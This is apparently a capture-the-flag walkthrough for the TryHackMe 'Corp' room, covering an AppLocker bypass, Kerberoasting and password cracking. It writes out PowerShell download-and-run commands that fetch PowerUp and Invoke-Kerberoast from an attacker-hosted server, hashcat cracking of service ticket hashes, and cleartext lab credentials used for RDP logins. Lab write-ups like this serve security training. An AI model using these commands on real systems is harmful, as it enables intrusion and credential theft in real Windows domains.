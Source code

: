 # Corp

**Room Link:** [https://tryhackme.com/room/corp](https://tryhackme.com/room/corp)



## Bypassing Applocker



Load PowerUp.ps1 into memory.

**Kali**

```
wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1
python2 -m SimpleHTTPServer 81
```

Add the following line at the bottom to PowerUp.ps1 so it Invokes all checks automatically once downloaded

**PowerUp.ps1**

```
Invoke-AllChecks
```

**Victim(powershell)**

<pre><code>powershell -ep bypass
<strong>iex​(New-Object Net.WebClient).DownloadString('http://$KALI:81/PowerUp.ps1') 
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
echo "dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
xfreerdp +clipboard /u:"Administrator" /v:$VICTIM:3389 /size:1024x568 /smart-sizing:800x1200
Password: tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T
```

<figure><img src="../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

## Kerberoasting

Run the below command from the Administrator account we just got access to.

**Victim(powershell)**

```
setspn -T medin -Q ​ */*
```

<figure><img src="../../.gitbook/assets/image (10) (3).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
python2 -m SimpleHTTPServer 81
```

Add the following line at the bottom to Invoke-Kerberoast.ps1 so it runs automatically once downloaded

```
 Invoke-Kerberoast -OutputFormat hashcat ​ |fl
```

**Victim(powershell)**

```
powershell -ep bypass
powershell -c "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.131.240:81/Invoke-Kerberoast.ps1'))"
```

<figure><img src="../../.gitbook/assets/image (9) (4).png" alt=""><figcaption></figcaption></figure>

Run this to get rid of all the spaces.

**Kali**

```
cat hash.txt | sed 's/[[:space:]]//g' |tr -d '\n' | sed 's/$krb5tgs$23$*/\n&/g' > hash.txt
```

Lets use hashcat to bruteforce this password. The type of hash we're cracking is Kerberos 5 TGS-REP etype 23 and the hashcat code for this is 13100.

**Kali**

```
hashcat -m 13100 -a 0 hash2.txt /usr/share/wordlists/rockyo.txt --force
hashcat -m 13100 -a 0 hash2.txt /usr/share/wordlists/rockyou.txt --force --show
```

<figure><img src="../../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
xfreerdp +clipboard /u:"fela" /v:$VICTIM:3389 /size:1024x568 /smart-sizing:800x1200
Password: rubenF124
```




